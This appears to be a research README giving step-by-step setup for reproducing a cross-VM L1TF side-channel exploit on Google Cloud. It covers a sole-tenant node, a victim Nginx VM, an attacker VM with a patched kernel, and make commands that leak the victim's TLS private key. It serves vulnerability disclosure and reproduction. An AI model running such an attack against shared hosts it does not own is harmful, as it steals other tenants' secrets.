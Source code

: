 # Setting up the VMs

Make sure you have a functioning Google Cloud account.

## Create Sole-Tenant Node
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Click "Create node group", and:
  - Pick some "region" and "zone";
  - Create (or pick) a node template with:
    - "Node type" = n1-node-96-624; (Note: if not listed; pick another region/zone)
    - Enable "CPU overcommit".
  - Keep "Autoscaling" = off;
  - Pick "Number of nodes" = 1;
  - Keep the default maintenance and share settings.

## Create Victim VM
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Pick (one of) your node group(s) based on a "n1-node-96-624" template.
- Click "create instance", and:
  - Set the "name", to e.g. `gce-victim`
  - Keep all other settings default, which means 2 vCPUs, 7.5 GB Memory, 10GB disk with Debian 12 Bookworm OS, etc.
  - "Create" the VM instance.
- Copy `setup/install_nginx_https.sh` script over to `gce-victim` and run it to install the Nginx webserver and configure it to HTTPS.
  The output should contain the private key of a newly generated, self-signed TSL certificate,
  and an example webpage containing "Welcome to nginx!".

## Create Attacker VM

Create the `gce-attacker` VM via the Google Cloud Console,
similar to the victim VM, except for making its disk bigger: 50GB.
(We need some space to compile the Linux kernel.)

Install standard packages, download the L1TF Reloaded repo, and install a custom kernel that speeds up L1TF on `gce-attacker`:
```
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev
git clone git@github.com:vusec/l1tf_reloaded.git
git clone git@github.com:torvalds/linux.git --branch v6.13 --depth 1
cd linux
git apply ../l1tf_reloaded/setup/l1tf-pf.patch
cp ../l1tf_reloaded/setup/kconfig .config
make -j2 bindeb-pkg
printf "\nGRUB_DISABLE_SUBMENU=y\n" | sudo tee /etc/default/grub
sudo dpkg -i ../linux-*.deb
```

Building the kernel takes almost 2 hours, so you might want to run it in the background in a tmux session.

Reboot the VM into the just installed `l1tf-pf` kernel (`sudo reboot`).
After reboot, ensure `uname -r` gives back `6.13.0-l1tf-pf+`.

## The Exploit

Go into the `l1tf_reloaded` directory. Load the required dependencies and install the needed kernel modules:
```
make load_modules
```

Ensure `include/config.h` holds the following configuration:
```
#define MACHINE GCE
#define HELPERS 0
#define LEAK L1TF
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This will take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `gce-victim:/etc/ssl/private/nginx-selfsigned.key`.

